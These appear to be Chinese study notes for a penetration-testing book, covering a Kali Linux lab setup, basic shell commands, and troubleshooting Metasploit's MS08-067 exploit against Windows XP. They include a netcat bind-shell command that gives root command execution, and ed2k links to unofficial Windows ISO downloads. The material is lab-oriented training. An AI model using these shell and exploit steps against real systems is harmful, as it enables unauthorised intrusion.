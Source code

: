 #### 第一章 搭建环境
##### 安装VMware
[安装VMware Player](https://my.vmware.com/cn/web/vmware/free#desktop_end_user_computing/vmware_workstation_player/15_0)

##### 安装和配置kali Linux和靶机
1. [下载Kali Linux镜像](https://nostarch.com/pentesting)  
上面的链接是原书使用的Kali版本，但我认为最好是安装最新版的Kali Linux。
2. 原书的登陆`username`: `root` `password`: `toor`。
3. VMware网络配置桥接（bridged）模式
4. [安装Nessus](https://www.tenable.com/downloads/nessus)
5. 安装Ming C编译器
6. 安装Hyperion（hyperion2.0-0已经加到kali2中，无需再次安装）
7. 安装Veil-Evasion(Veil-Evasion已不被作者支持，可以安装Veil3:https://github.com/Veil-Framework/Veil)
8. 配置Ettercap
9. 创建靶机

- Ubuntu 8.10  
- Windows XP SP3  
下载文件：ed2k://|file|zh-hans_windows_xp_service_pack_3_x86_cd_x14-60563.iso|417675264|2AAB7F0CD4BE378D9113557B1D24D8D0|/  
- Windows 7 SP1  
下载文件：ed2k://|file|cn_windows_7_professional_with_sp1_vl_build_x64_dvd_u_677816.iso|3266004992|5A52F4CCEFA71797D58389B397038B2F|/  

10. 配置靶机环境

##### Q&A
1. Nessus6.5.4安装及Plugins Download Fail  
解决办法：  
https://blog.csdn.net/ling_xiao007/article/details/50670441
2. Kali安装Mingw32：`E.无法定位安装包mingw32`  
解决办法：  
运行命令：`gedit /etc/apt/sources.list`  
添加两行内容：
```
deb http://old.kali.org/kali sana main non-free contrib
deb-src http://old.kali.org/kali sana main non-free contrib
```
运行命令：`apt-get update`  
安装mingw32:`apt-get install mingw32`

#### 第二章 使用Kali Linux
1. 管道命令`>`会把目标文件中的原始内容彻底覆盖；管道命令`>>`用于向已有文件追加文本内容。
2. 用`chmod`命令可以改变文件访问权限

| 整数值 |  权  限  |
|--------|----------|
|      7 | 全部权限 |
|      6 | 读、写   |
|      5 | 读、执行 |
|      4 | 只读     |
|      3 | 写、执行 |
|      2 | 只写     |
|      1 | 只执行   |
|      0 | 拒绝访问 |

3. `grep`是在文件中搜索文本的命令：`grep keyword filename`。
4. `sed`替换文件中的关键字：`sed 's/Blackhat/Defcon' filename`，Blackhat替换为Defcon。
5. 开放式shell和反弹式shell
    5.1 开放式shell
实验环境：

受害者：

Ubuntu Linux --------> 192.168.01.106

攻击者：

Kali Linux ----------> 192.168.0.104

我们就以最常见的bash为例：

Ubuntu Linux上执行：  
`root@ubuntu:~# nc -lvp 1234 -e /bin/bash`

Kali Linux上执行：  
```bash
root@Kali:~# nc 192.168.01.106 1234
whoami
# 输出
root
ls
# 输出
公共
模板
视频
图片
文档
下载
音乐
桌面
```
开放式Shell也就是受害主机监听某一端口并绑定主机的Shell，攻击主机通过Netcat连接到受害主机的端口可以在受害主机执行任意Linux命令，并回显在攻击主机上。
    5.2 反弹式shell
与开放式shell相反，详见[链接](https://xz.aliyun.com/t/2549)

6. 在/etc/crontab文件中可以设置定时任务

##### Q&A
1. 设置静态路由之后，运行`service network restart`命令，出现错误：
```
[FAILED] Failed to start Raise network interfaces.
 See 'systemctl status networking.service' for details
```
解决办法：  
在`/etc/udev/rules.d/`新建一个文件`10-rename-network.rules`，添加下面的内容：  
`SUBSYSTEM=="net", ACTION=="add", ATTR{address}=="ff:ff:ff:ff:ff:ff", NAME="eth0"`，再重启系统即可。

#### 第三章 编程
略

#### 第四章 使用Metasploit框架

##### Q&A
1. exploit ms08-067时出现错误：
```shell
[*] Started reverse TCP handler on 192.168.0.105:4444 
[-] 192.168.0.109:445 - Exploit failed [unreachable]: Rex::ConnectionRefused The connection was refused by the remote host (192.168.0.109:445).
[*] Exploit completed, but no session was created.
```
解决办法：首先检查在Kali Linux是否能Ping通Windows XP；再在Kali Linux上检查Windows XP是否是否已经启用445端口：`nmap -p 445 192.168.0.XXX`。如果检查成功，那么重启Window XP，开机后在Kali Linux上exploit。

2. exploit ms08-067时出现错误：
```shell
*] Started reverse TCP handler on 192.168.0.105:4444 
[*] 192.168.0.109:445 - Automatically detecting the target...
[*] 192.168.0.109:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 192.168.0.109:445 - We could not detect the language pack, defaulting to English
[*] 192.168.0.109:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 192.168.0.109:445 - Attempting to trigger the vulnerability...
[*] Exploit completed, but no session was created.
```
解决办法：根据提示，很明显是metasploit无法识别目标主机的版本，那么我们就先查看这个漏洞可以用在哪些系统：`show targets`，再根据时间情况选择对应target序号：`set target XX`。

